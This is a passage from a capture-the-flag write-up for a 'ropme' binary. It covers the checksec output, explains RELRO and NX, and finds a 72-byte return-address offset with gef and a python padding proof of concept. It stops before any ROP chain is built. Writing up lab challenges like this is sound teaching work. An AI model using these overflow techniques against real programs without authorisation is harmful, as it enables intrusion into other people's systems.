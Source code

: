 0. Check what we are up against.
root@nidus:/git/challenges/ropme# pwn checksec --file=ropme
  [*] '/git/challenges/ropme/ropme'
      Arch:     amd64-64-little
      RELRO:    Partial RELRO
      Stack:    No canary found
      NX:       NX enabled
      PIE:      No PIE (0x400000)

Arch = Tells us it's a 64 ELF-executable.

RELRO = stands for ‘relocation read-only’ and this protection ensures that the global offset table (GOT) cannot
be overwritten. But in this case, it’s partial RELRO so the only pragmatic difference is that the BSS section
comes before the GOT. This prevents buffer overflows in global variables overwriting the GOT.

NX = The NX flag, if enabled at compile-time, indicates that a given memory region can be either readable
or executable but never both. Again this is a protection that makes it harder to execute arbitrary shellcode.


1. Run ropme in gdb (with gef extension) to find the rsp value where the program crashes.
Create a pattern, run the program and see where it crashes.

gef➤  pattern create 100
  [+] Generating a pattern of 100 bytes
  aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
  [+] Saved as '$_gef0'
gef➤  r
  Starting program: /git/challenges/ropme/ropme
  ROP me outside, how 'about dah?
  aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

  Program received signal SIGSEGV, Segmentation fault.


We find that the program ended on a return (ret);
   →   0x40066c <main+70>        ret

And where the RSP (stack point) is;
  0x00007fffffffdf18│+0x0000: "jaaaaaaakaaaaaaalaaaaaaamaaa\n"	 ← $rsp

Use 'pattern offset' to find the offset:
gef➤  pattern offset jaaaaaaakaaaaaaalaaaaaaamaaa
  [+] Searching 'jaaaaaaakaaaaaaalaaaaaaamaaa'
  [+] Found at offset 72 (big-endian search)

We can prove the offset with a simple POC where we insert 72*A and 8*B, resulting in only B's in the rsp.
root@nidus:/git/challenges/0xDiablos# python -c "print 'A'*72 + 'B'*8"
  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

gef➤  r
  Starting program: /git/challenges/ropme/ropme
  ROP me outside, how 'about dah?
  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
